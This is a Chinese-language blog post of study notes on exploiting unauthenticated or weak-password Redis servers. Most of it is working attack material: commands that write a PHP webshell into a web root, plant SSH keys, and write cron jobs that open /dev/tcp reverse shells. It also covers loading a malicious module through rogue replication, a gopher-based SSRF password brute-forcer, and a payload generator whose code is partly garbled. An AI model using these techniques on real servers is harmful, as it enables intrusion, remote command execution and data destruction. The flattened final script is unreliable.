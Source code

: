 ```yaml
---
layout: post
title: redis 未授权利用
date: 2022-8-05
categories: blog
tags: [笔记,redis]
description: redis利用学习笔记

---
```

**redis梳理**

redis命令了解 http://redisdoc.com/    



弱密码测试   
`nc ip 6379` 这时就是连接成功  
输入 `INFO` 或 `PING` 如果成功，则未设置密码，如果显示 `-NOAUTH   Authentication required`，则设置了密码  
输入 `auth 123456`，即进行密码认证，测几个弱密码就行   

**1.redis写入shell**（最常用的getshell套路，但因为权限问题，失败概率较高）

```shell
>CONFIG SET dir /VAR/WWW/HTML
>CONFIG SET dbfilename shell.php
>SET PAYLOAD '<?php eval($_GET[0]);?>'#set x "\r\n\r\n<?php phpinfo();?>\r\n\r\n" redis写入文件时会自带一些版本信息，不换行可能导致无法执行
>BGSAVE
```

tips:攻击者会在上线未授权或弱口令登录redis后在写马前，执行flushall,部分原因是因为redis数据都是缓存在内存中,所写内容有限，flushall清空数据来保证写马成功，但会造成数据丢失

利用条件：服务端连接redis存在未授权，并未登录验证
                  开了服务端存在web服务器，且知道web目录的路径

**2.写ssh&corn**（条件较为苛刻）

```shell
ssh-keygen -t rsa #生成密钥
cd .ssh & (echo -e "\n\n"; cat id_rsa.pub;echo -e "\n\n")>1.txt #本地执行将密钥写入
cat 1.txt | redis-cli -h x.x.x.x -x set crack #写入公钥 -x 代表从标准输⼊读取数据作为该命令的最后⼀个参数
>config set dir /root/.ssh
>config dbfilename keys
ssh -i id_rsa root@x.x.x.x #本地连接getshell

#写计划任务反弹shell
>set evil "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/x.x.x.x/1234 0>&1\n\n"
>config set dir /var/spool/cron
>config set  dbfilename root
>save
#局限性：redis写文件后的默认权限是644，但是ubuntu执行定时任务的权限是600，且ubun存在乱码会报错，所以写定时任务只能在centos上执行
```

利用已有脚本 hackredis.py

利用条件：1.服务端redis存在未授权，并未登录验证   2.服务端存在.ssh目录并且有写入权限

**3.设置主从复制加载恶意module**(也同样需要高权限操作，且数据同步容易删除目标redis上存储的数据)

设置目标机器为服务器的从属服务器

```shell
>SLAVEOF 127.0.0.1 7000 #设置7000的服务器为本服务的主服务器
>SLAVEOF NO ONE #取消主从复制
```

利用前验证环境可用性

```shell
>PING #测试连通性
>REPLCONF #刷新主从关系信息
>PSYNC/SYNC #验证是否可以正常连接
```

开始主从复制利用

```shell
#将目标redis设置为slave
>SLAVEOF IP port 
#设置redis数据库文件
>CONFIG SET dbfilename exp.so #主redis设置恶意模块
#加载恶意模块
>MODULE LOAD /var/lib/redis/exp.so #目标redis加载恶意模块
#实现命令执行
```

附录：redis module编写方法
编写模块不需要依赖redis或者其他库，只需要`#include "redismodule.h"`这个文件就可以编写
模块里必须有一个 `RedisModule_OnLoad() `函数，是模块入口点，可以在函数里定义模块名、新命令、新数据类型等等，其它内容与c,c#,cython写法相近

redis4.0以下可以通过主从复制把shell写入键值,新版本需要`protected-mode no`  
主从复制打redis工具：https://github.com/Dliv3/redis-rogue-server

**4.ssrf打redis**
利用gopher发送恶意代码攻击redis包括爆破redis弱口令和主从复制打redis爆破弱口令脚本：

```python
#参考代码
import urllib
import requests
import os

payload =
"""*2
$4
AUTH
${0}
{1}
QUIT
"""

with open("top500.txt") as f:
    for i in f:
        password = i.strip()
        length = len(password)
        poc = payload.format(length,password)
        tmp = urllib.parse.quote(poc)
        new = tmp.replace('%0A','%0D%0A')
        result = '_'+new
        result = "gopher://192.168.242.129:6379/"+result
        status = os.system('curl %s'%result)
        if status:
            print(password)
            break
            
import urllib
import requests
import os

payload =
"""*2
$4
AUTH
${0}
{1}
QUIT
"""
u ="http://127.0.0.1/?url={0}"

with open("top500.txt") as f:
    for i in f:
        password = i.strip()
        length = len(password)
        poc = payload.format(length,password)
        tmp = urllib.parse.quote(poc)
        new = tmp.replace('%0A','%0D%0A')
        result = '_'+new
        result = "gopher://192.168.242.129:6379/"+result
        url = u.format(result)
        print(url)
```

附录：RESP协议
redis在1.2中引入RESP协议，redis2.0开始成为redis标准通信方式，例如下面的利用脚本。

```shell
*4
$6
config
$3
set
$3
dir
$5
/tmp/
*4
$6
config
$3
set
$10
dbfilename
$9
module.so
*3
$7
slaveof
$7 #ip长度
test.cn #ip
$4 #端口长度
8080 #端口
*3
$6
module
$4
load
$14
/tmp/module.so
*2
$11
system.exec
$2
id #执行的命令
*1
$4
quit
```

上述代码利用工具编码，使用gopher协议发包即可命令执行
rogue-sever.py需要一个死循环一直跑，防止目标redis连接上后就自动断开连接，导致exp.so没法传完

```shell
#do.sh
while ["1"="1"]
do
   python rogue-sever.py
done
```

tips：生成的payload需要二次编码后发送才能利用

```python
/*gopher协议反弹shell利⽤脚本*/
import urllib
protocol="gopher://"
ip="192.168.127.140"
port="6379"
reverse_ip="192.168.127.131"
reverse_port="7777"
cron="\n\n\n\n*/1 * * * * bash -i >& /dev/tcp/%s/%s 0>&1\n\n\n\n"%
(reverse_ip,reverse_port)
filename="root"
path="/var/spool/cron"
passwd=""
cmd=["flushall", "set 1 {}".format(cron.replace(" ","${IFS}")), "config set dir
{}".format(path), "config set dbfilename {}".format(filename), "save" ]
if passwd: cmd.insert(0,"AUTH {}".format(passwd))
payload=protocol+ip+":"+port+"/_"
def redis_format(arr): CRLF="\r\n" redis_arr = arr.split(" ") cmd=""
cmd+="*"+str(len(redis_arr)) for x in redis_arr:
cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
cmd+=CRLF return cmd if __name__=="__main__": for x in cmd: payload +=
urllib.quote(redis_format(x)) print payload
```

**5.redis 利用bypass**

5.1 数据库过大时，redis写shell技巧(即1中第三步)

```shell
set payload "\r\n\r\n<?php set_time_limit(0);$fp=fopen('evil.php','w');fwrite($fp,'<?php @eval($_POST[\"evil\"]);?>');\r\n\r\n"
exit();
?>"
```

